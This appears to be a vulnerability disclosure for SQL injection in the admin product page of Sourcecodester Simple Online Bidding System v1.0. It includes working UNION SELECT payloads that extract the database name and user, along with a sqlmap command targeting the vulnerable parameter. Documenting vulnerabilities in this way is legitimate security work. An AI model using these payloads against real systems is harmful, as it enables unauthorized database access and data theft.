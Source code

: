 SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=manage_product&id=1

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![image-20240515152854519](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-4.assets/image-20240515152854519.png)

#### 2.Vulnerability verification and exploit

We can exploit vulnerabilities using methods such as federated query injection. The database name and any information about the database can be obtained through this injection point.

First, you can test that the number of queries is 9, and further test the echo positions of the 9 query results, as shown in the figure below.

```
page=manage_product&id=-2+union+select+1,2,3,4,5,6,7,8,9%23
```

![image-20240515153055682](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-4.assets/image-20240515153055682.png)

Then you can select 2 and 3 as the echo positions, modify the payload to query the database name and current database user name.

```
page=manage_product&id=-2+union+select+1,2,database(),user(),5,6,7,8,9%23
```

![image-20240515153217759](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-4.assets/image-20240515153217759.png)

We can also use sqlmap to conduct injection point testing. The test results are shown in the figure below. There are also SQL injection vulnerabilities that can be exploited.

```
python sqlmap.py -u "http://x.x.x.x/admin/index.php?page=manage_product&id=1" --cookie="PHPSESSID=xxxxxxxxxxxxxxxxxxxxx" --batch
```

![image-20240515161632226](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-4.assets/image-20240515161632226.png)
